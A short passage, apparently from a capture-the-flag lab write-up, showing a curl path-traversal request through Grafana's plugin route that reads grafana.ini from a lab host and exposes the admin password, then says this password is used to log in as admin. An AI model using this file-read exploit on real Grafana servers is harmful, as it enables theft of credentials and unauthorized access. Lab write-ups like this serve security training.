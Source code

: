 
    oxdf@hacky$ curl --path-as-is -s http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini | grep -v "^[#;\[]" | grep .
    admin_password = messageInABottle685427



What's left is just the password, meaning it's the only non-default line
in the config.

#### Log In

With that default admin password, I can log into Grafana as the admin
user:

[![](/img/image-20220913105217755.png)*Click
for full size